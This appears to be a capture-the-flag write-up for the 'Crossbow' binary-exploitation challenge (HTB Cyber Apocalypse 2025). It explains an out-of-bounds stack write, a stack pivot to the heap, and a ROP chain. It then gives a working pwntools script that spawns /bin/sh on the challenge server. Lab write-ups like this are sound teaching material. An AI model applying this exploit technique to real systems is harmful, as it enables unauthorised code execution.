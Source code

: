 ```yaml
---
title: Crossbow
date: 2025-03-29T19:09:45+02:00
description: Writeup for Crossbow [HTB Cyber Apocalypse CTF 2025]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Sir Alaric's legendary shot can pierce through any enemy! Join his training and hone your aim to match his unparalleled precision.

## Intuition

The following is the decompiled code for the `training()` and the `target_dummy()` functions, which are the vulnerable functions:

```c
void training(void)

{
  char *local_28 [4];
  
  printf("%s\n[%sSir Alaric%s]: You only have 1 shot, don\'t miss!!\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  target_dummy(local_28);
  printf("%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  return;
}


void target_dummy(char **param_1)
{
  int iVar1;
  long lVar2;
  char *pcVar3;
  int input;
  
  printf("%s\n[%sSir Alaric%s]: Select target to shoot: ",&DAT_0040b4a8,&DAT_0040b00e,&DAT_0040b4a8);
  iVar1 = scanf("%d%*c",&input);
  if (iVar1 != 1) {
    printf("%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
           &DAT_0040b4e4,&DAT_0040b00e,&DAT_0040b4e4);
    exit(0x520);
  }
  lVar2 = (long)input;
  pcVar3 = (char *)calloc(1,0x80);
  param_1[lVar2] = pcVar3;
  if (param_1[lVar2] == (char *)0x0) {
    printf("%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
    exit(0x1b39);
  }
  printf("%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ",&DAT_0040b4a8,&DAT_0040b00e,
         &DAT_0040b4a8);
  pcVar3 = fgets_unlocked(param_1[input],0x80,(FILE *)__stdin_FILE);
  if (pcVar3 == (char *)0x0) {
    printf("%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",&DAT_0040b4e4,&DAT_0040b00e,
           &DAT_0040b4e4);
    exit(0x45);
  }
  return;
}
```

Basically, we get an arbitrary write up the stack through `param_1[lVar2] = pcVar3`, because `lVar2` can be out of bounds. But our write simply overwrites 8 bytes on the stack with a pointer to the heap, to where our next payload is stored.

After that, with the `fgets_unlocked(param_1[input],0x80,(FILE *)__stdin_FILE)`, we can write on the heap.

The idea here is to overwrite a saved RBP on the stack to poison RSP and point to the heap.
Then the heap will contain addresses to ROP gadgets and we can form a ROP chain like that.

Another problem here is `0x80`, the number of bytes we can read through the `fgets()` call, is not that much.
So our payload has to be quite small.

## Solution

For the solution, I chose to make use of the numerous `pop` gadgets and the `syscall` gadget.
It's a bit weird, but basically I `read(0, data_addr, 59)` and then the rest of the payload uses `data_addr` and `data_addr+16` as arguments to `execve()`.

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./crossbow")
target = remote("83.136.249.101", 42894)

data_addr = 0x40d000
pop_rax = 0x0000000000401001
pop_rdi = 0x0000000000401d6c
pop_rsi = 0x000000000040566b
pop_rdx = 0x0000000000401139
syscall = 0x0000000000404b51

target.sendline(b"-2")

payload = p64(0) + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(data_addr) + p64(pop_rdx) + p64(59) + p64(syscall) + p64(pop_rdi) + p64(data_addr + 16) + p64(pop_rdx) + p64(0) + p64(syscall)

target.sendline(payload)

second_stage = p64(data_addr + 16) + p64(0) + b"/bin/sh\x00" + + b"a" * 35
target.send(second_stage)

target.interactive()
```

The way the payload goes is:

1. Overwrite RBP with `-2`.
2. Payload contains 8 bytes of `0x0` at the beginning because dynamic analysis shows execution skips 8 bytes of my payload so whatev.
3. Set RAX to 0, set RDI to 0, set RSI to data_addr (which is just some address in a writable segment of memory), set RDX to 59, do `syscall` -- equivalent with `read(0, data_addr, 59)`.
4. After the read happens, RAX is set to 59. This is helpful for the next syscall, which should do `execve()`.
5. The second stage of the payload is input for the `read()` syscall. Basically it constructs a fake argv at `data_addr` as follows:

```
data_addr = 0x41000 (for example)

ADDRESS: 8-BYTE VALUE
---------------------------
0x41000: 0x0000000000041010 ---+ // This is basically argv[0] = 0x41010
0x41008: 0x0000000000000000    | // This is basically argv[1] = 0
0x41010: 0x0068732f6e69622f  <-+ // This is "/bin/sh\x00"
```

6. Finally, after the fake argv is constructed, the `execve(data_addr+0x10, data_addr, NULL)` syscall happens. Owned.

### Flag

`HTB{st4t1c_b1n4r13s_ar3_2_3z_SOME_UNIQUE_ID}`
